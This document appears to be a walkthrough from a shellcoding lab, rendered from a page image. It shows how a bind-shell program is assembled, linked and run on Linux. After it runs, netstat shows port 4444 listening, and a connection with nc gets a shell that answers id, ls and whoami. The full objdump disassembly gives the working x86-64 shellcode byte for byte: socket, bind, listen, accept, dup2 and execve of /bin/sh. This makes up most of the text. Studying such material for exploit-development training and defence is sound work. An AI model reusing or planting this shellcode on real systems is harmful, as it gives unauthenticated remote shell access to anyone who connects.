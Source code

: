 ### **Installing NASM and Build Essentials**
```bash
sudo apt install nasm build-essential
```
- **nasm** and **build-essential** are already installed.

---

### **Assembling the Code**
```bash
nasm -f elf64 bindshell.nasm -o bindshell.o
```
- This command assembles the `bindshell.nasm` file into an object file (`bindshell.o`) in ELF64 format.

---

### **Linking the Object File to Create an Executable**
```bash
ld bindshell.o -o bindshell
```
- **Warning**: `ld: warning: cannot find entry symbol _start; defaulting to 0000000000401000`
  - This warning occurs because the linker cannot find the `_start` symbol, which is typically the entry point of a program. It defaults to a memory address.

---

### **Running the Executable**
```bash
./bindshell
```
- The program runs without visible output.

---

### **Checking Open Ports with `netstat`**
```bash
netstat -nlt
```
- Output shows that port `4444` is listening:
  ```
  Proto Recv-Q Send-Q Local Address           Foreign Address         State      
  tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN     
  ```

---

### **Connecting to the Bind Shell Using `nc`**
```bash
nc localhost 4444
```
- Commands executed after connecting:
  ```bash
  id
  uid=1000(tyrell) gid=1000(tyrell) groups=1000(tyrell),4(adm),20(dialout),24(cdrom),27(sudo),30(dip),33(www-data),46(plugdev),100(users),114(lpadmin)

  ls
  README.md
  bindshell
  bindshell.nasm
  bindshell.o

  whoami
  tyrell
  ```

---

### **Disassembling the Object File with `objdump`**
- **Command to disassemble**:
  ```bash
  objdump -D -M intel bindshell.o
  ```
- **Output**:
  ```assembly
  bindshell.o:     file format elf64-x86-64

  Disassembly of section .text:

  0000000000000000 <.text>:
     0:   31 c0                 xor    eax,eax
     2:   31 db                 xor    ebx,ebx
     4:   31 d2                 xor    edx,edx
     6:   b0 01                 mov    al,0x1
     8:   89 c6                 mov    esi,eax
     a:   fe c0                 inc    al
     c:   89 c7                 mov    edi,eax
     e:   b2 06                 mov    dl,0x6
    10:   b0 29                 mov    al,0x29
    12:   0f 05                 syscall
    14:   93                    xchg   ebx,eax
    15:   48 31 c0              xor    rax,rax
    18:   50                    push   rax
    19:   68 02 01 11 5c        push   0x5c110102
    1e:   88 44 24 01           mov    BYTE PTR [rsp+0x1],al
    22:   48 89 e6              mov    rsi,rsp
    25:   b2 10                 mov    dl,0x10
    27:   89 df                 mov    edi,ebx
    29:   b0 31                 mov    al,0x31
    2b:   0f 05                 syscall
    2d:   b0 05                 mov    al,0x5
    2f:   89 c6                 mov    esi,eax
    31:   89 df                 mov    edi,ebx
    33:   b0 32                 mov    al,0x32
    35:   0f 05                 syscall
    37:   31 d2                 xor    edx,edx
    39:   31 f6                 xor    esi,esi
    3b:   89 df                 mov    edi,ebx
    3d:   b0 2b                 mov    al,0x2b
    3f:   0f 05                 syscall
    41:   89 c7                 mov    edi,eax
    43:   48 31 c0              xor    rax,rax
    46:   89 c6                 mov    esi,eax
    48:   b0 21                 mov    al,0x21
    4a:   0f 05                 syscall
    4c:   fe c0                 inc    al
    4e:   89 c6                 mov    esi,eax
    50:   b0 21                 mov    al,0x21
    52:   0f 05                 syscall
    54:   fe c0                 inc    al
    56:   89 c6                 mov    esi,eax
    58:   b0 21                 mov    al,0x21
    5a:   0f 05                 syscall
    5c:   48 31 d2              xor    rdx,rdx
    5f:   48 bb ff 2f 62 69 6e  movabs rbx,0x68732f6e69622fff
    66:   2f 73 68 
    69:   48 c1 eb 08           shr    rbx,0x8
    6d:   53                    push   rbx
    6e:   48 89 e7              mov    rdi,rsp
    71:   48 31 c0              xor    rax,rax
    74:   50                    push   rax
    75:   57                    push   rdi
    76:   48 89 e6              mov    rsi,rsp
    79:   b0 3b                 mov    al,0x3b
    7b:   0f 05                 syscall
    7d:   50                    push   rax
    7e:   5f                    pop    rdi
    7f:   b0 3c                 mov    al,0x3c
    81:   0f 05                 syscall
  ```

---

### **Key Points**
1. **`ld` Warning**: The linker warns about the missing `_start` symbol, which is the default entry point for programs.
2. **Bind Shell**: The program listens on port `4444` and provides a shell when connected via `nc`.
3. **Disassembling**: `objdump` is a useful tool for disassembling object files and inspecting assembly code.


